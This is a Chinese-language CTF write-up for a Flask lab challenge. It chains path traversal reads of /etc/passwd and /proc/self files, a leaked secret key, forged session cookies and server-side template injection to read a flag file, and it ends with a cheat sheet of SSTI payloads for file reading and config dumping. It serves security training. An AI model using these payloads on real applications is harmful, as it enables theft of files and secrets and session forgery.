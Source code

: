 ```yaml
---
Author: SuperJason
Date: 2020-12-18
Update: 2020-12-31
---
```


## flag
`n1book{afr_3_solved}`
[参考资料](https://www.anquanke.com/post/id/170466)

## 思路
1. 访问环境，任意输入ls  
![](./images/afr3-1.png)
2. 网页将我们的输入值ls打印出来，可能存在模板注入  
![](./images/afr3-2.png)
3. 进一步进入article界面，测试flag，模板注入{{1+2}}  
![](./images/afr3-3.png)
![](./images/afr3-5.png)
![](./images/afr3-4.png)
4. 注意到输入为{{1+2}}时给出了路径，开始尝试路径穿越`../../../../../../../etc/passwd`，获得passwd文件值  
![](./images/afr3-6.png)
5. 利用`/proc/self/environ`获取当前程序的环境变量，猜测flag存在于`/home/sssssserver/flag`，但是还是显示无权限  
![](./images/afr3-7.png)
6. 利用`/proc/self/cmdline`获取当前程序命令行记录，发现`python server.py`命令，典型的使用了flask或Django  
![](./images/afr3-8.png)
7. 进一步利用`/proc/self/cwd`获取当前进程目录，通过`/proc/self/cwd/server.py`得到源码[server.py](./scripts/afr3_server.py)。在server.py中提到了`key.py`和`flag.py`，其内容如下。  
- key.py **#!/usr/bin/python key = 'Drmhze6EPcv0fN_81Bj-nA'**
- flag.py 由于server.py对带flag字符的参数过滤，所以没有得到文件内容
8. 通过阅读源码关键部分，如果`session['n1code']`不存在或者`n1code`不在session中，我们填入的表单值会作为`session['n1code']`的值。  
```python
@app.route("/n1page", methods=["GET", "POST"])
def n1page():
    if request.method != "POST":
        return redirect(url_for("index"))
    n1code = request.form.get("n1code") or None 
    if n1code is not None:
        n1code = n1code.replace(".", "").replace(
            "_", "").replace("{", "").replace("}", "")
    if "n1code" not in session or session['n1code'] is None:
        session['n1code'] = n1code
        template = None
    if session['n1code'] is not None:
        template = '''<h1>N1 Page</h1> <div class="row> <div class="col-md-6 col-md-offset-3 center"> Hello : %s, why you don't look at our <a href='/article?name=article'>article</a>? </div> </div> ''' % session[
            'n1code']
        session['n1code'] = None
        return render_template_string(template)
```  

9. 然后下列语句会将`session['n1code']`的值打印出来。  
    重点在于我们需要构造`session['n1code']`，能让`flag.py`的值被打印出来

```python
template = '''<h1>N1 Page</h1> <div class="row> <div class="col-md-6 col-md-offset-3 center"> Hello : %s, why you don't look at our <a href='/article?name=article'>article</a>? </div> </div> ''' % session['n1code']
```


10. 到这里时借用**Wilson Sumanang, Alexandre ZANNI**大佬的[flask session hack](./scripts/flask_session_cookie_hack.py)脚本。
- 解密代码模式
*python flask_session_cookie_hack.py decode -c {cookie} -s {secert_key}*
- 解密代码详情
python .\flask_session_cookie_hack.py decode -c eyJuMWNvZGUiOm51bGx9.X92dcQ.uupVCl_MiIFwJPSj4hnJTB6D5F4 -s Drmhze6EPcv0fN_81Bj-nA
- 本session的cookie值
![](./images/afr3-9.png)
- 执行解密脚本
![](./images/afr3-10.png)


11. 然后把`{'n1code': None}`换成读文件`flag.py`的代码，加密回去
```{'n1code': '{{\'\'.__class__.__mro__[2].__subclasses__()[40](\'flag.py\').read()}}'}```
- 加密代码模式
*python flask_session_cookie_hack.py encode -t {} -s {secert_key}*
- 加密代码详情
*python .\flask_session_cookie_hack.py encode -t "{'n1code': '{{\'\'.__class__.__mro__[2].__subclasses__()[40](\'flag.py\').read()}}'}" -s Drmhze6EPcv0fN_81Bj-nA*
![](./images/afr3-11.png)

12. 得到cookie值，修改网页cookie值，在表单填入任意值，完成对`session['n1code']`的修改，使得[server.py](./scripts/afr3_server.py)可以打印出`flag.py`的内容
`eyJuMWNvZGUiOiJ7eycnLl9fY2xhc3NfXy5fX21yb19fWzJdLl9fc3ViY2xhc3Nlc19fKClbNDBdKCdmbGFnLnB5JykucmVhZCgpfX0ifQ.X92fSQ.KKLJgd92Ymr6a29ENijcYidV1Mk`
![](./images/afr3-12.png)
![](./images/afr3-13.png)

13. 获得flag
**n1book{afr_3_solved}**

## 总结
这道题究极费时费力，一个多月前第一次做的时候就不会，现在第二次做也还是不会，不过从当时的半知半解得到flag，到现在基本了解了整道题的原理和考点
- 考察对flask、Django等web框架的cookie、session加解密知识
- 考察`../../../../../`目录穿越
- 考察目录穿越后获取信息的能力
    - `/proc/self/environ` 当前进程环境变量
    - `/proc/self/cmdline` 当前进程命令行，得到`python server.py`命令
    - `/proc/self/cwd` 当前进程工作目录，得到server.py源码，进而找出flask的cookie篡改漏洞。
- 考察SSTI(模板注入)  
  `{'n1code': '{{\'\'.__class__.__mro__[2].__subclasses__()[40](\'flag.py\').read()}}'}`

## SSTI常用命令
- **读取文件内容1，()也可以为''**  
```{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['__builtins__']['open']("/app/server.py").read()}}``` 
- **读取文件内容2**
```{{''.__class__.__mro__[2].__subclasses__()[40]('flag.py').read()}}```
- **获取配置**  
```{{config.items()}}```
- **自身dict**  
```{{self.__dict__}}```
- **获取当前app配置**  
```{{get_flashed_messages.__globals__['current_app'].config}}```
- **__getitem__绕过[]**  
```{{get_flashed_messages.__globals__.__getitem__('current_app').config}}```
- **url_for减少字符长度**  
```{{url_for.__globals__.__getitem__('current_app').config}} ```